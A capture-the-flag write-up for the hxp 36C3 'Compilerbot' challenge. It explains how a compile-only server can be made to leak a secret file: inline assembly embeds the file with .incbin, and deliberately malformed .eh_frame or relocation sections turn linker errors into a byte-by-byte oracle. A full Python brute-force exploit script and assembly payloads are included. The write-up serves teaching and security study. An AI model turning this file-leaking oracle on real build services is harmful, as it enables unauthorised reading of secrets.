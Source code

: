 ```yaml
---
title: hxp 36C3 CTF - Compilerbot
authors: Ryan Govostes (rgov)
date: 2019-12-28
categories: misc
---
```



The server for this challenge accepts C source code and compiles it into an executable using Clang. Our objective is to recover the contents of the flag file, *but our code is never executed*. The server only tells us whether the compilation was successful and produced no warnings.

The server's response could serve as an oracle if we are able to guess part of the flag and make the compilation fail or emit a warning if our guess is incorrect.

We threw out any approach that involves `#include "flag"` because the flag is likely not valid C code, and we didn't think one could [abuse the preprocessor to create a string from the contents of a file](https://stackoverflow.com/questions/1246301/c-c-can-you-include-a-file-into-a-string-literal), but other teams were successful with this.

Our solution's starting point is to use inline assembly and the [`.incbin`](https://sourceware.org/binutils/docs/as/Incbin.html#Incbin) assembler directive, which includes the given file, or a portion of it, verbatim in the binary. (We first learned about this from write-ups of the [Oneline Calc](https://ctftime.org/task/9149) challenge from TokyoWesterns CTF 2019.)

When we use `.incbin`, the file contents are not embedded until the assembler stage, so we aren't going to be able to trigger an error dependent on the content of the flag before this stage (or during it).

The last stage, linking, follows the assembler. It transforms the object file produced by the assembler into an executable. This is the stage we should target: we want to produce an object file that the linker either accepts or rejects based on the contents of the flag.

To do this, we need to look at structures in the object file that the linker uses. There are a number of special sections (see [`elf(5)`](http://man7.org/linux/man-pages/man5/elf.5.html), under "Section header") which hold control information used by the linker; if one of these sections is invalid, it may cause a linker error.

For example, the GNU `ld` linker creates a lookup table from [`.eh_frame`](https://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-PDA/LSB-PDA/ehframechpt.html) sections, and if one of them is not correctly formed, the table generation will fail. We can create a valid section manually with inline assembly:

```c
// create a dummy a Call Frame Information record 
__asm__(
    ".pushsection .eh_frame\n"

    // length of CIE record
    ".long 0x0000000D\n"

    // CIE fields
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".popsection\n"
);
```

Since the record contains a length field, we could corrupt the `.eh_frame` by providing a length that is too long or too short, causing the linker to read garbage when it scans the next record. For instance, we could read one byte of the flag file into the least-significant byte of the record length:

```c
    // length of CIE record
    ".incbin \"flag\", 0, 1\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
```

If the first byte of the flag has value 13 (carriage return), then the record length is correct and there will be no linker error. But for any other value, we get:

    /usr/bin/ld: error in /tmp/test-a17b24.o(.eh_frame); no .eh_frame_hdr table will be created

(Note that the compilation technically succeeds but the challenge server considers any message written to standard error as a failure.)

This can be used as our oracle. To test if the first byte is some value *other* than 13, we just need to pad the end of the struct:

```c
    // pad extra bytes; linking will succeed if the first byte of the flag
    // is 97 (ASCII 'a')
    ".rept 97 - 13\n"
    ".byte 0\n"
    ".endr\n"
```

Now we can adjust the amount of padding to change the record size until the linker stops complaining, which indicates that the record size is consistent with its length field, and therefore that the record size equals the value of the first byte of the flag.

This can be repeated for the next byte until the entire flag is recovered.


## Exploit

Thanks to Sophia d'Antoine for fixing an oversight in my exploit code.

```python
#!/usr/bin/env python
import subprocess


payload = r'''
__asm__ (
    ".pushsection .eh_frame\n"

    // length of CIE record, using one byte from flag
    // length must be at least 13
    ".incbin \"flag\", __OFFSET__, 1\n"
    ".rept 3\n"
    ".byte 0\n"
    ".endr\n"

    // 13 bytes of CIE record junk
    // http://refspecs.linuxfoundation.org/LSB_3.0.0/LSB-Core-generic/LSB-Core-generic/ehframechpt.html
    ".long 0x00000000\n"
    ".byte 0x01\n"
    ".asciz \"zR\"\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"
    ".byte 0\n"

    ".rept __GUESS__ - 13\n"
    ".byte 0\n"
    ".endr\n"

    ".popsection\n"
);
'''


# this runs the compiler locally, running against the challenge server is left
# as an exercise to the reader
def try_compile(code):
    code = 'int main(void) { ' + code + ' }'
    sub = subprocess.Popen(['clang', '-x', 'c', '-o', '/dev/null', '-'],
                           stdin=subprocess.PIPE,
                           stdout=subprocess.PIPE,
                           stderr=subprocess.STDOUT)
    stdout, _ = sub.communicate(code)
    return sub.returncode == 0 and stdout.strip() == ''


# test first
code = payload
code = code.replace(r'".incbin \"flag\", __OFFSET__, 1\n"',
                    r'".byte 0x20\n"')
code = code.replace('__GUESS__', '0x20')
assert try_compile(code)


# recover the flag
flag = ''
for flag_offset in range(32):
    for guess in range(0x20, 0x7f):
        code = payload
        code = code.replace('__GUESS__', str(guess))
        code = code.replace('__OFFSET__', str(flag_offset))
        if try_compile(code):
            flag += chr(guess)
            break
    else:
        # no guess worked, maybe end of the flag
        break

print('flag is', flag)
```


## Bonus 

Due to an oversight, I initially implemented this exploit against GCC and found a slightly different oracle:

I created a dummy section of a certain number of bytes, and a [relocation entry](https://refspecs.linuxbase.org/elf/gabi4+/ch4.reloc.html) that would increment the byte at a given offset.

GCC, but not Clang, will apply the relocation by the time the final executable is linked. (If you can make this work with Clang, please let me know.)

If the relocation entry's offset is beyond the bounds of the dummy section, the linker complains:

    /usr/bin/ld: /tmp/ccQDGoK1.o(.foo+0x10): reloc against `*UND*': error 4
    /usr/bin/ld: final link failed: nonrepresentable section on output
    collect2: error: ld returned 1 exit status

We can apply the same general idea as above: use `.incbin` to read a byte of the flag into the relocation entry's offset, and adjust the size of the dummy section according to our guess.

```c
__asm__ (
    // create a section of N bytes
    ".pushsection .foo\n"
    ".rept 97\n"
    ".byte 0xFF\n"
    ".endr\n"
    ".popsection\n"
    
    // create a relocation that tries to modify our section at some offset
    // based on a single byte of the flag; if it is out of bounds then the
    // linker will error
    ".pushsection .rela.foo\n"
    ".align 1\n"

    // offset into .foo -- must not overflow !
    ".incbin \"flag\", 0, 1\n"
    ".rept 7\n"
    ".byte 0\n"
    ".endr\n"

    ".quad 0x000000000000000E\n" // type of reloc: R_X86_64_8
    ".quad 0x0000000000000001\n" // value to add at that offset
    ".popsection\n"
);
```
